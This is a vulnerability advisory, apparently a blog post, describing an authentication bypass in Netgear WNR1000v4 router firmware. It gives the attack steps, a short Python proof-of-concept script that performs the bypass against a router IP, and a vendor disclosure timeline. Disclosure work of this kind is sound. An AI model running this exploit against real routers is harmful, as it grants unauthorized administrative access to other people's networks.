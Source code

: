 ```yaml
---
layout: post
author: H4
---
```


# Netgear WNR1000v4 AuthBypass [1]
[Details](https://www.exploit-db.com/exploits/39356)

# Media and Other Mentions
[https://www.bbc.com/news/technology-34491583](https://www.bbc.com/news/technology-34491583)
[routersploit](https://github.com/threat9/routersploit/blob/master/routersploit/modules/exploits/routers/netgear/n300_auth_bypass.py)
[https://securityaffairs.co/wordpress/40920/hacking/netgear-router-exploit.html](https://securityaffairs.co/wordpress/40920/hacking/netgear-router-exploit.html)
[https://threatpost.com/disclosed-netgear-router-vulnerability-under-attack/114960/](https://threatpost.com/disclosed-netgear-router-vulnerability-under-attack/114960/)

# Introduction
Multiple NETGEAR wireless routers are out of the box vulnerable to an authentication bypass attack. No router options has to be changed to exploit the issue. So an attacker can access the 
administration interface of the router without submitting any valid username and password, just by requesting a special URL several times.

# Affected
- Router Firmware: N300_1.1.0.31_1.0.1.img
- Router Firmware; N300-1.1.0.28_1.0.1.img
- Router Firmware; N300-1.1.0.24_1.0.1.img
- tested and confirmed on the WNR1000v4 Router with both firmwares
- other products may also be vulnerable because the firmware is used in multiple devices

# Technical Description
The attacker can exploit the issue by using a browser or writing a simple exploit.
1. When a user wants to access the web interface, a http basic authentication login process is initiated
2. If he does not know the username and password he gets redirected to the 401_access_denied.htm file
3. An attacker now has to call the URL http://<ROUTER-IP>/BRS_netgear_success.html multiple times
- After that if he can access the administration web interface and there is no username/password prompt

# PoC Python Script
```python
import os
import urllib2
import time
import sys

try:
	first = urllib2.urlopen("http://" + sys.argv[1])
	print "No password protection!"
except:
	print "Password protection detected!"
	print "Executing exploit..."
	for i in range(0,3):
		time.sleep(1)
		urllib2.urlopen("http://" + sys.argv[1] + "/BRS_netgear_success.html")

	second = urllib2.urlopen("http://" + sys.argv[1])
	if second.getcode() == 200:
		print "Bypass successfull. Now use your browser to have a look at the admin interface."
```

# Timeline
21.07.2015: Vendor notified per email (security@netgear.com)
            -> No response
23.07.2015: Vendor notified via official chat support
24.07.2015: Support redirected notification to the technical team
29.07.2015: Requested status update and asked if they need further assistance
            -> No response
ç21.08.2015: Notified vendor that we will go full disclosure within 90 days if they do not react
03.09.2015: Support again said that they will redirect it to the technical team
03.09.2015: Netgear sent some beta firmware version to look if the vulnerability is fixed
03.09.2015: Confirmed to Netgear that the problem is solved in this version
            Asked Netgear when they plan to release the firmware with this security fix
11.09.2015: Response from Netgear saying they will not disclose the patch release day
15.09.2015: Asked Netgear again when they plan to publish the security fix for the second time
            -> No response
29.09.2015: Full disclosure of this vulnerability by SHELLSHOCK LABS
06.10.2015: Forced public release of this advisory to follow up on [2]

# References
[1] http://support.netgear.com/product/WNR1000v4
[2] http://www.shellshocklabs.com/2015/09/part-1en-hacking-netgear-jwnr2010v5.html

